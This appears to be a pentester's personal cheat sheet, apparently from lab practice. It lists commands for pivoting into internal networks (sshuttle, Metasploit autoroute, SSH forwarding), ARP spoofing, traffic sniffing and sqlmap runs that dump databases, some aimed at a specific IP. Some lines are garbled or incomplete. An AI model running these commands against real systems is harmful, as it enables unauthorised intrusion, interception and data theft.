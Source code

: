 ```

```
sshuttle -r <user>@<ip of machine to ssh to> --ssh-cmd "ssh -i <id_rsa>" <ip ofmachine to ssh to>/<subnet mask> -x <ip ofmachine to ssh to>
```

metasploit (needs metepreter sessions, remember cntrl+z to bg shells that aren't meterpreter shells)

```
run autoroute -s <subnet mask>

scanner/portscan/tcp to scan the new network

portwd -l <listening port on machine> -p <port on target machine> -r <ip of machine>
```

ssh port forwarding

```
ssh -L <local port>:<attacking ip>:<victim port> -i id_rsa user@<victim ip>
```
chisel

``` 
ATTACKING MACHINE:
VICTIM MACHINE: 
```
## Route

```
route (lists routing table)

ip route add <ip/subnet> via <gateway ip> (can also add in dev <interface>)
```

### arpspoofing

``` arpspoof -t <ip> <ip> ```

## traffic sniffing

```
tcpdump -i -n 

openssl s_client -connect ip:port
```

## sqlmap

sqlmap get request

```sqlmap -u 'http://www.example.com/' --batch --dump```


sqlmap post request

```sqlmap 'http://www.example.com/' --data 'uid=1&name=test' --batch --dump```
```sqlmap -u 'http://www.example.com/' --data 'uid=1&name=test' -p uid --batch --dump``` 
```sqlmap -u 'http://www.example.com/' --data 'uid=1*&name=test' --batch --dump```

sqlmap examining cookies/headers

```sqlmap -u  http://167.172.52.221:31935/case3.php --cookie "id=1*" --batch --dump```


sqlmap not finding injections (that are known to be there)
```sqlmap -u http://167.172.52.221:32606/case5.php?id=1 --dump --risk=3 --batch```
```